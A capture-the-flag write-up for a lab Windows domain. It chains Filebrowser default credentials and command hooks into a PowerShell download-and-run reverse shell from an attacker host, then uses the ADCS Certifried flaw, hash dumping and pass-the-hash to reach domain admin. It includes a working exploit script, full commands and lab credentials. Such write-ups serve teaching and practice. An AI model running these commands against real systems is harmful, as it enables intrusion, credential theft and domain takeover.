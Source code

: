 Challenge Description:

A Certification Authority has declined our requests to access their data in order to identify a well known APT group. Unfortunately we do not have the jurisdiction to force them to cooperate. For this reason you are tasked with hacking their infrastructure in order to gather information.

Nmap found the following ports and includes the domain certification.htb and CFN-SVRDC01.certification.htb.

![image](https://user-images.githubusercontent.com/80063008/179422508-2e28dbf0-fea5-437d-b4e6-d606eacacbaa.png)


The page on port 80 is static. Nothing to see here.

![image](https://user-images.githubusercontent.com/80063008/179422512-77c3324e-0ea9-4383-b57c-a3e570248f99.png)


On port 8000 we have something more interesting. A file browser app.

![image](https://user-images.githubusercontent.com/80063008/179422514-95c76b4c-e33c-4abc-b120-ed5978575c51.png)


Which very nicely has default credentials of admin:admin

![image](https://user-images.githubusercontent.com/80063008/179422517-c701a477-aa1d-4a20-9227-31ee17e0a29c.png)


The global settings for filebrowser allows me to set commands to be executed on certain actions.

![image](https://user-images.githubusercontent.com/80063008/179422525-38f195ec-8bcc-4578-bf59-d543da0cfe84.png)


Actions like the ones listed below:

![image](https://user-images.githubusercontent.com/80063008/179422526-3ffb5510-e410-4e27-9201-5b6e2fc5e53d.png)


I used a powershell command to grab an obfuscated reverse shell from my box and run it. The link below is the obfuscated reverse shell I used.

https://raw.githubusercontent.com/ivan-sincek/powershell-reverse-tcp/master/src/invoke_expression/obfuscated/invoke_obfuscation/powershell_reverse_tcp_obfuscated.ps1

![image](https://user-images.githubusercontent.com/80063008/179422528-d64b8718-8529-4b6b-b530-733e64177e9c.png)

The python script below just automates the process. I log in to grab a JWT cookie, set the command to trigger on file upload and then I upload something.

```python
import requests

loginURL = 'http://certification.htb:8000/api/login'
headers = {"Content-Type":"application/json"}
data = {"username":"admin","password":"admin","recaptcha":""}

r = requests.post(loginURL, headers=headers, json=data)
cook = r.text

cmdURL = 'http://certification.htb:8000/api/settings'
headers2 = {"X-Auth":f"{cook}","Cookie":f"auth={cook}", "Content-Type":"text/plain"}
data1 = '{"signup":false,"createUserDir":false,"userHomeBasePath":"/users","defaults":{"scope":".","locale":"en","viewMode":"mosaic","singleClick":false,"sorting":{"by":"","asc":false},"perm":{"admin":true,"execute":true,"create":true,"rename":true,"modify":true,"delete":true,"share":true,"download":true},"commands":[],"hideDotfiles":false,"dateFormat":false},"rules":[],"branding":{"name":"","disableExternal":false,"files":"","theme":"dark","color":""},"shell":[],"commands":{"after_copy":[],"after_delete":[],"after_rename":[],"after_save":[],"after_upload":["powershell IEX (New-Object Net.WebClient).DownloadString(\'http://10.10.14.72/shell.ps1\')"],"before_copy":[],"before_delete":[],"before_rename":[],"before_save":[],"before_upload":[]}}'
x = requests.put(cmdURL, headers=headers2,data=data1)

readme = 'http://certification.htb:8000/api/resources/test/README.txt?override=true'
data2 = 'data'
z = requests.post(readme, headers=headers2, data=data2)
```

And we have the server grabbing our file

![image](https://user-images.githubusercontent.com/80063008/179422534-85e57e78-b6e1-4ae7-afd7-a3b0f519fe1a.png)


And a reverse shell foothold. Checking who we are, it looks like we are daniel.morgan with no specific, easy to exploit privileges.

![image](https://user-images.githubusercontent.com/80063008/179422538-c66a7739-92fc-4bdd-841b-2e37b027aaef.png)


But we do get the user flag easily enough.

![image](https://user-images.githubusercontent.com/80063008/179422540-8938e249-1223-4f52-8ad2-b211d989f406.png)

HTB{Abu51ng_F34tur3s_4r3_fun}

In the powershell script we also find the user's credentials.

![image](https://user-images.githubusercontent.com/80063008/179422544-6e3cb701-57f4-46d4-8a45-adf83ebbee02.png)

daniel.morgan  
FDOnolk(naws)

We can confirm they are still valid with kerbrute.

![image](https://user-images.githubusercontent.com/80063008/179422755-93fcbef2-a569-4e82-a1b2-0a179c4c1425.png)


## ADCS exploit - PRIVESC ##

Based on the name of the challenge and the fact that I saw this exploit mentioned on twitter pretty often recently, I researched for quite  abit. Then I followed this blogpost. This was after hours of going back and forth to a filebrowser.bat that the user had control over and WinPEAS told me that the administrator will run it when daniel logs in. Because of this I kept trying to forward port 5985 for WinRM but failed because of proper AV and firewall settings.

https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4

We start the ADCS exploit by getting the certipy app installed.

```bash
git clone https://github.com/ly4k/Certipy  
cd Certipy  
virtualenv -p /usr/bin/python3.10 venv3  
source venv3/bin/activate  
python3 setup.py install  
```
On the github page of the tool we see we can use it to find the existing certificate templates.

![image](https://user-images.githubusercontent.com/80063008/179422551-e7d7a6c4-60e6-4559-9a35-520e474c676d.png)


Step 1: Find what certificate templates are available.
```bash
certipy find certification.htb/daniel.morgan:'FDOnolk(naws)'@certification.htb
```
![image](https://user-images.githubusercontent.com/80063008/179422552-fbe83cbf-c85d-4de2-bcef-16c3f7adbb22.png)

I had to make sure I had the CA name properly written down. It is mentioned in the certipy out as well.

![image](https://user-images.githubusercontent.com/80063008/179422572-526430db-28dd-4332-ab78-851c18bab106.png)

Step 2: Add a machine computer.
```bash
addcomputer.py 'CERTIFICATION.htb/daniel.morgan:FDOnolk(naws)' -method LDAPS -computer-name CFN-FAKE -computer-pass 'lazytitan'
```
![image](https://user-images.githubusercontent.com/80063008/179422582-efc846ab-7b0d-48a4-bcb6-4d01870cb2ae.png)

Step 3: Request a certificate for the above created machine account.
```bash
certipy req -ca certification-CFN-SVRDC01-CA -template Machine CFN-SVRDC01.certification.htb/CFN-FAKE$:lazytitan@CFN-SVRDC01.certification.htb
```
May need a few tries if getting an error about rpc time out..

![image](https://user-images.githubusercontent.com/80063008/179422587-da42aea0-2894-4a59-bac6-36b4d0359586.png)

Step 4: Authenticate with the pfx file to get the hash, just to check that it's good.

```bash
certipy auth -pfx cfn-fake.pfx 
```
![image](https://user-images.githubusercontent.com/80063008/179422591-45b0c7c9-8c80-4b04-aa72-7607b0415967.png)

Step 5: From the compromised low priv account, find the current DNSHostName just to check. Looks good.
```powershell
Get-ADComputer "CFN-FAKE" -Properties *|findstr DNSHostName
```
![image](https://user-images.githubusercontent.com/80063008/179422596-e662e91b-9b44-49ad-aa6e-67d7a3b5d258.png)

Step 6: Test to ensure you can change it.
```powershell
Set-ADComputer -Identity "CFN-FAKE" -DNSHostName 'test.certification.htb'
```
![image](https://user-images.githubusercontent.com/80063008/179422605-583ce263-4c4d-4fce-ae3c-dbec849c459f.png)

Step 7: Check the properties of the servicePrincipalName.
```powershell
Get-ADComputer "CFN-FAKE" -Properties *
```
![image](https://user-images.githubusercontent.com/80063008/179422615-d2244cb6-8c53-40e4-bfe2-0465459c709f.png)

Step 8: If it already has stuff in it, clear it using the syntax below.
```powershell
Set-ADComputer -Identity "CFN-FAKE" -servicePrincipalName $null
```
Step 9: put the Domain Controllers name instead.
```powershell
Set-ADComputer -Identity "CFN-FAKE" -DNSHostName 'CFN-SVRDC01.certification.htb'
```
![image](https://user-images.githubusercontent.com/80063008/179422626-e4faf5ef-8943-4ceb-b9ed-3d52ff363a38.png)

Step 10: request another certificate and this time, it should be for the DC.

![image](https://user-images.githubusercontent.com/80063008/179422628-aef87599-5646-41df-8ca4-a5ba1332a969.png)

Step 11: authenticate with the generated DC pfx file to get the NTLM hash.

![image](https://user-images.githubusercontent.com/80063008/179422631-532dfe8e-114d-455d-976e-26630cc0d61d.png)

Step 12: Use the DC hash above to dump the hashes using secretsdump.py
```bash
secretsdump.py 'certification.htb/CFN-SVRDC01$@CFN-SVRDC01.certification.htb' -hashes :d85512d5e138a972140986b9cc664d7a
```
![image](https://user-images.githubusercontent.com/80063008/179422634-6f50e2bc-dfec-4d9d-af39-b4ed63396891.png)

Administrator:500:aad3b435b51404eeaad3b435b51404ee:30d9a71719214d675de29308730c0cb0:::

Step 13: Use wmiexec to pass the hash -- PROFIT.
```bash
wmiexec.py certification.htb/administrator@CFN-SVRDC01.certification.htb -hashes aad3b435b51404eeaad3b435b51404ee:30d9a71719214d675de29308730c0cb0
```
![image](https://user-images.githubusercontent.com/80063008/179422638-34bf265e-3b91-4f6e-837f-e8bd209142ff.png)



HTB{c3rtif1c4t35_c4n_8e_f4k3d}
